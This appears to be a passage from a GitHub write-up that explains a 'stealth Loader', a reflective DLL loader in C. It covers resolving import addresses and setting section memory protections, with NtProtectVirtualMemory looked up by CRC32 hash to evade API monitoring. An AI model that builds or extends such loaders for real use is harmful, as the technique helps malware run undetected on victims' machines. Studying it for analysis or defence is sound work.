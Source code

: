         4. **Resolve Function Addresses**:
        - For each imported function, it iterates through the thunk data, which contains information about the imported functions.
        - It resolves the address of each imported function using `LdrGetProcedureAddress`.
        - If the function is imported by name, it retrieves the function name from the import address table and resolves its address.
        - If the function is imported by ordinal, it directly resolves the address using the ordinal number.

        5. **Repeat for Each Import Descriptor**:
        - This process is repeated for each import descriptor in the DLL.

        Overall, this code segment dynamically resolves the addresses of imported functions by iterating through the import descriptors, loading the necessary libraries, and resolving the function addresses using their names or ordinals. This ensures that the DLL can successfully link to and call the functions from the imported libraries.
    - stealth Loader part 6:
    ```c
        PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(nt_headers);
        for (int i = 0; i < nt_headers->FileHeader.NumberOfSections; i++, section_header++) {
            if (section_header->SizeOfRawData) {
                unsigned long executable = (section_header->Characteristics & IMAGE_SCN_MEM_EXECUTE) != 0;
                unsigned long readable = (section_header->Characteristics & IMAGE_SCN_MEM_READ) != 0;
                unsigned long writeable = (section_header->Characteristics & IMAGE_SCN_MEM_WRITE) != 0;
                unsigned long protect = 0;

                if (!executable && !readable && !writeable)
                    protect = PAGE_NOACCESS;
                else if (!executable && !readable && writeable)
                    protect = PAGE_WRITECOPY;
                else if (!executable && readable && !writeable)
                    protect = PAGE_READONLY;
                else if (!executable && readable && writeable)
                    protect = PAGE_READWRITE;
                else if (executable && !readable && !writeable)
                    protect = PAGE_EXECUTE;
                else if (executable && !readable && writeable)
                    protect = PAGE_EXECUTE_WRITECOPY;
                else if (executable && readable && !writeable)
                    protect = PAGE_EXECUTE_READ;
                else if (executable && readable && writeable)
                    protect = PAGE_EXECUTE_READWRITE;

                if (section_header->Characteristics & IMAGE_SCN_MEM_NOT_CACHED)
                    protect |= PAGE_NOCACHE;

                void *p_nt_protect_virtual_memory = get_proc_address_by_hash(p_ntdll, NtProtectVirtualMemory_CRC32b);
                NtProtectVirtualMemory_t g_nt_protect_virtual_memory = (NtProtectVirtualMemory_t) p_nt_protect_virtual_memory;
                size_t size = section_header->SizeOfRawData;
                void *address = dll_base + section_header->VirtualAddress;
                if((status = g_nt_protect_virtual_memory(NtCurrentProcess(), &address, &size, protect, &protect)) != 0x0)
                    return -7;
            }
        }
    ```
    This code  iterates through each section header of the DLL, analyzes its characteristics, and sets the memory protection accordingly.
